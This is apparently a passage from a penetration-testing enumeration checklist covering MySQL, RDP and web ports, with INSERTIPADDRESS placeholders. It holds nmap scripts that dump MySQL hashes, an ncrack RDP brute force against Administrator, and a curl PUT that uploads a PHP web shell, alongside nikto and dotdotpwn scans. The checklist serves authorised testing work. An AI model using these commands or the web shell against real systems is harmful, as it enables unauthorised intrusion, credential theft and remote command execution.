 - Name:
- Version:

```
mysql --host=INSERTIPADDRESS -u root -p

nmap -sV -Pn -vv -script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 INSERTIPADDRESS -p 3306
```

### Port 3339 - Oracle web interface

- Basic info about web service (apache, nginx, IIS)
- Server:
- Scripting language:
- Apache Modules:
- IP-address:
- Domain-name address:

### Port 3389 - Remote desktop

Test logging in to see what OS is running

```
rdesktop -u guest -p guest INSERTIPADDRESS -g 94%

# Brute force
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://INSERTIPADDRESS
```


### Port 80

- Server:
- Scripting language:
- Apache Modules:
- Domain-name address:

INSERTCURLHEADER


- Web application
- Name:
- Version:

```
# Nikto
nikto -h http://INSERTIPADDRESS

# Nikto with squid proxy
nikto -h INSERTIPADDRESS -useproxy http://INSERTIPADDRESS:4444

# Get header
curl -i INSERTIPADDRESS

# Get everything
curl -i -L INSERTIPADDRESS

# Check if it is possible to upload using put
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php

# Check for title and all links
dotdotpwn.pl -m http -h INSERTIPADDRESS -M GET -o unix
```
